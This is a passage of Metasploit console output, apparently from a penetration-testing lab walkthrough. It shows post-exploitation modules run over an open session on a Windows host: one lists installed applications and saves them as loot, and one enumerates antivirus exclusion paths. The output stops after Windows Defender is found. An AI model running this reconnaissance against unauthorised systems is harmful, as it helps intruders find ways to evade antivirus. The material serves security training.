 ```

 Name                                Version
 ----                                -------
 AWS PV Drivers                      8.3.3
 AWS Tools for Windows               3.15.1084
 Amazon SSM Agent                    2.3.842.0
 Amazon SSM Agent                    2.3.842.0
 EC2ConfigService                    4.9.4222.0
 EC2ConfigService                    4.9.4222.0
 EC2ConfigService                    4.9.4222.0
 Mozilla Firefox 80.0.1 (x86 en-US)  80.0.1
 Mozilla Maintenance Service         80.0.1
 aws-cfn-bootstrap                   1.4.33


[+] Results stored in: /root/.msf4/loot/20230212181713_windows_post_10.0.22.100_host.application_881038.txt
[*] Post module execution completed
```

```
msf5 post(windows/gather/enum_applications) > loot

Loot
====

host         service  type               name              content     info                    path
----         -------  ----               ----              -------     ----                    ----
10.0.22.100           host.applications  applications.txt  text/plain  Installed Applications  /root/.msf4/loot/20230212181713_windows_post_10.0.22.100_host.application_881038.txt
```

```
msf5 post(windows/gather/enum_applications) > search type:post platform:windows enum_av

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  post/windows/gather/enum_av_excluded                   normal  No     Windows Antivirus Exclusions Enumeration


msf5 post(windows/gather/enum_applications) > use post/windows/gather/enum_av_excluded
msf5 post(windows/gather/enum_av_excluded) > show options

Module options (post/windows/gather/enum_av_excluded):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   DEFENDER    true             yes       Enumerate exclusions for Microsoft Defender
   ESSENTIALS  true             yes       Enumerate exclusions for Microsoft Security Essentials/Antimalware
   SEP         true             yes       Enumerate exclusions for Symantec Endpoint Protection (SEP)
   SESSION                      yes       The session to run this module on.

msf5 post(windows/gather/enum_av_excluded) > set SESSION 1
SESSION => 1
msf5 post(windows/gather/enum_av_excluded) > run

[*] Enumerating Excluded Paths for AV on WIN-OMCNBKR66MN
[+] Found Windows Defender
```